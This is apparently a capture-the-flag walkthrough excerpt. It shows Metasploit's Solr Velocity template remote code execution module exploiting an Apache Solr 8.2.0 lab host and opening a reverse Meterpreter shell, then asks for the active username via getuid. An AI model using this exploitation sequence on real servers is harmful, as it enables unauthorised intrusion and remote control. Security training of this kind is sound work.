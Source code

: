 ```
[*] params.resource.loader.enabled is false for 'novacollection', trying to update it...
[+] params.resource.loader.enabled is true for core 'novacollection'
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (10.8.65.249:8080).
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/solr_velocity_rce) > exploit
[*] Started reverse TCP handler on 10.8.65.249:4444 
[*] 172.20.16.38:8983: Authentication not required
[*] Found Apache Solr 8.2.0
[*] OS version is Linux amd64 5.10.0-27-amd64
[*] Found core(s): novacollection
[+] Found Velocity Response Writer in use by core 'novacollection'
[+] params.resource.loader.enabled for core 'novacollection' is set to true.
[*] Targeting core 'novacollection'
[+] params.resource.loader.enabled is true for core 'novacollection'
[*] Using URL: http://10.8.65.249:8080/9AQmIzCOHomPOFu/
[*] Sending stage (58073 bytes) to 172.20.16.38
[*] Meterpreter session 1 opened (10.8.65.249:4444 -> 172.20.16.38:51824) at 2025-10-25 11:17:02 +0100
[*] Server stopped.

meterpreter >
```
#### What is the username of the active user obtained from the shell on the target system?
From the meterpreter session, you can obtain the username of the active user on the target system by using the `getuid` command.
